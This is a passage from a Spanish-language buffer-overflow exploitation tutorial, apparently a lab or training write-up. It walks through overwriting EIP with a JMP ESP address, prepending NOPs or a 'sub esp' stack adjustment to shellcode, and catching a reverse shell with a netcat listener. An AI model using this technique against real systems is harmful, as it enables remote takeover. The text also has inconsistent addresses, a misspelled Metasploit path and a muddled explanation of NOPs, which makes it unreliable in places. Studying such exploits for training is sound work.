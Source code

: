Pues bien, ahora comprobaremos si al lanzar el exploit.py EIP vale 5f4c4d13
```py
> python3 exploit.py
```
Volvemos al inmunity, estamos en un break point, y si toda va bien veremos que EIP vale 5f4c4d13.  
Aquí se puede ver muy bien la lógica del programa de nuevo; EIP salta a la dirección 5f4d4c13 y esta dirección contiene la instrucción JMP ESP, es decir, hará un salto al ESP, ¿y que vale el ESP? vale **0272A128**. Pues este valor es lo que valdrá EIP si continuamos el programa (recuerda que estamos en un break point) hacemos un step into (botón al lado del pause).  
¡¡Y si!!!, EIP tiene el valor 027A128.  
Si hacemos un click derecho all EIP --> follow in dump, tendremos nuestro shellcode representado. El tema es que esto no te lo va a interpetar, hay que darle un espacio, todo el mundo necesita algo de espacio.

Ya casi lo tenemos, queda poco!.

### Uso de NOPs, desplazamientos en pila. Conseguimos la reverse shell.

Si lanzamos el exploit tal y como lo tenemos (sin el espacio) no lo interpeta ¿por qué?, al ser el shellcode amplio y algo complejo su ejecución puede llevar más tiempo de la que el procesador tiene disponible antes de que continue con la siguiente instrucción del programa.

Para solucionar esto hay dos formas:
1- Asignar un espacio gracias al cual el procesador tenga tiempo para interpretarlo. Y para ello, se suelen utilizar **NOPs** -"no op" no operation- en plan "no ganas nada", se representan como x90

2- Desplazamiento de la pila. Para que tarde más en llegar a la pila.

Vayamos con la primera forma. Modificamos el exploit.py:
```py
# Añadimos 16 NOPs, podemos meter más. A más mejor.
payload = before_eip + eip + b"\x90"*16 + shellcode
```
Ahora sí, lanzemos exploit con expectativa de conseguir la reverse. En nuestra terminal atacante:
```sh
> rlwrap nc -nlvp 443
```
```sh
> python3 exploit.py
```
¡¡¡¡¡¡¡ Y conseguimos la reverse shell.!!!!!

Para la segunda forma -Desplazamiento de la pila:
```sh
> /sur/share/metaexploit-framework/tools/exploit/nasm_shell.rb
nasm > sub esp,0x10  #10 en hexadecimal es 16 en decimal.
# Decrementa el puntero de la pila en 16 bites.
# Me copio la instrucción; 83EC10
```
Y modifico exploit:
```py
payload = before_eip + eip + b"\x83\xEC\x10" + shellcode
```
Hago lo mismo que antes; `rlwrap nc -nlvp 443` y `python3 exploit.py`.
